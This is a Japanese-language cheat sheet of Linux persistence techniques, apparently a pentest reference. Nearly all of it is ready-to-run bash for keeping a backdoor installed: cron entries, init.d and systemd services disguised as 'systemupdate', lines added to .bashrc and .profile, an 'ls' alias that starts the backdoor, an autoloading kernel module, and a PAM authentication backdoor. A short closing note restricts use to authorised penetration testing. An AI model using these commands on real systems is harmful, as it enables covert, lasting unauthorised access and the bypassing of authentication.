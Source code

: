 # Linux Persistence Techniques

## Cron ジョブ

### システムワイドCron
```bash
# システムワイドなCronジョブの追加
echo "* * * * * /path/to/backdoor" > /etc/cron.d/systemupdate
echo "* * * * * root /path/to/backdoor" >> /etc/crontab

# 定期実行ディレクトリの利用
cp /path/to/backdoor /etc/cron.hourly/
chmod +x /etc/cron.hourly/backdoor
```

### ユーザーCron
```bash
# ユーザーのCronジョブに追加
(crontab -l 2>/dev/null; echo "* * * * * /path/to/backdoor") | crontab -

# Cron ジョブの確認
crontab -l
```

## 起動スクリプト

### システム起動スクリプト
```bash
# init.d スクリプトの作成
cat << EOF > /etc/init.d/systemupdate
#!/bin/sh
### BEGIN INIT INFO
# Provides:          systemupdate
# Required-Start:    $network $syslog
# Required-Stop:     $network $syslog
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Description:       System Update Service
### END INIT INFO

case "\$1" in
    start)
        /path/to/backdoor &
        ;;
esac
exit 0
EOF

chmod 755 /etc/init.d/systemupdate
update-rc.d systemupdate defaults
```

### Systemd サービス
```bash
# Systemd サービスの作成
cat << EOF > /etc/systemd/system/systemupdate.service
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/path/to/backdoor
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable systemupdate
systemctl start systemupdate
```

## シェル設定ファイル

### ユーザーシェル設定
```bash
# .bashrc への追加
echo "nohup /path/to/backdoor &" >> ~/.bashrc

# .profile への追加
echo "nohup /path/to/backdoor &" >> ~/.profile

# .bash_aliases への追加
echo "alias ls='nohup /path/to/backdoor & ls'" >> ~/.bash_aliases
```

## カーネルモジュール

### カーネルモジュールの永続化
```bash
# カーネルモジュールのビルド
make
cp backdoor.ko /lib/modules/$(uname -r)/kernel/drivers/

# モジュールの自動ロード設定
echo "backdoor" >> /etc/modules
depmod -a
```

## PAM モジュール

### PAM 認証バックドア
```bash
# PAM モジュールのコンパイル
gcc -fPIC -shared -o backdoor.so backdoor.c
cp backdoor.so /lib/security/

# PAM 設定の変更
echo "auth sufficient backdoor.so" >> /etc/pam.d/common-auth
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- システムの重要な機能に影響を与える可能性があります
- 実環境での使用は違法となる可能性があります 